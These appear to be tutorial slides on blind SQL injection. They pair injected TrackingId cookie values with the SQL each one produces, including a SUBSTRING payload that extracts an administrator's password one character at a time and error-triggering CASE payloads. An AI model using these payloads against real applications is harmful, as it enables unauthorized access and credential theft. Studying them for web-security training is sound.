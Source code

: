 ## Blind SQL injection

```
Cookie: TrackingId=xyz' AND '1'='2
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND '1' = '2'
```

This will return `False` so we won't get the 'Welcome back' message.

----

## Blind SQL injection

```
Cookie: TrackingId=xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'a
```

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'a'
```

If the 'Welcome back' message is showed then the first character is 'a' and we can start checking for the second character.
If not we try 'b', 'c', and so on until we get it right.

---

## Blind SQL injection - inducing conditional responses by triggering SQL errors

What if injecting different Boolean conditions makes no difference to the application responses?

----

## Blind SQL injection - inducing conditional responses by triggering SQL errors

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'
```

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
```

----

## Blind SQL injection - inducing conditional responses by triggering SQL errors
